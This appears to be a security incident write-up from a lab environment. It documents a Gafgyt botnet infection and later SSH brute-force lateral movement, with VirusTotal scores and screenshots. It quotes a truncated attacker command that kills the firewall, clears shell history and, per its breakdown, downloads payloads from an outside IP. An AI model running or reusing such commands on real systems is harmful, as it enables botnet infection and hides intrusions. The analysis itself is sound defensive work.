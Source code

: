 ```bash
-c "pkill firewalld  -9;pkill iptables -9;ulimit -e 999999;... rm -rf .bash_history; history -c
```
[View full command → `observed-commands.md`](./observed-commands.md#bisis-ssh-brute-force-command)

**Command Breakdown:**
- Disables local firewall protections by terminating `firewalld` and `iptables`
- Increases system resource limits with `ulimit`
- Downloads and executes multiple payloads from `194.32.145.243` using `wget`, `curl`, and `tftp`
- Cleans execution traces by deleting shell history and temporary files

<p align="center">
  <img src="https://github.com/user-attachments/assets/09a6b57f-0c77-49c0-b4fd-a39ba10e0a95" alt="Screenshot description" width="525"/>
  <img src="https://github.com/user-attachments/assets/c7ed4c85-88ff-4c10-bcb9-3c6356c5a814" alt="Screenshot description" width="475"/>
  <img src="https://github.com/user-attachments/assets/b00a6d04-c1cc-4442-af3a-4e373333d025" alt="Screenshot description" width="600"/>
</p>

**File Activity:** Execution of `logsbins.sh` triggered creation of multiple files named sequentially from `b` to `o`. Each of these files is distinct and has been flagged as malicious.

**Malware Association:** These alphabetically named files are linked to the **Gafgyt** botnet, commonly used to conscript infected systems into coordinated botnet operations.

**VirusTotal Scores:**
- IP `194.32.145.243`: `12/94`
- File `b`: `44/64` (add link to virustotal-summary)

---

### February 18-19, 2025 — Lateral Movement and Persistence Activity

#### February 18, 2025

**Devices Involved:**  
- `Linux-VulnMgmt-Kobe`  
- `linux-ubuntu-lab`  
- `ed-linux`

**Activity:**  
The device `Linux-VulnMgmt-Kobe` (IP `10.0.0.160`) began making repeated login attempts to other virtual machines within the tenant network. This activity triggered detection alerts for an **unusual number of failed sign-in attempts**.

**Screenshot Context:**
<p align="center">
  <img src="https://github.com/user-attachments/assets/6e52e8a7-ea19-4d40-b56d-566a20b9dc29" alt="Login Attempts Timeline" width="250"/>
  <img src="https://github.com/user-attachments/assets/22ac491f-e4fe-44db-9e88-f6e52e72d229" alt="Failed SSH Attempts on VM" width="400"/>
</p>
<p align="center">
  <img src="https://github.com/user-attachments/assets/316a6aef-1dfd-431e-84ed-8d8f0bf029c9" alt="Expanded Device Activity" width="700"/>
  <img src="https://github.com/user-attachments/assets/dc5d668b-7ec7-4192-8f5c-71211caca724" alt="Detailed SSH Activity" width="700"/>
</p>
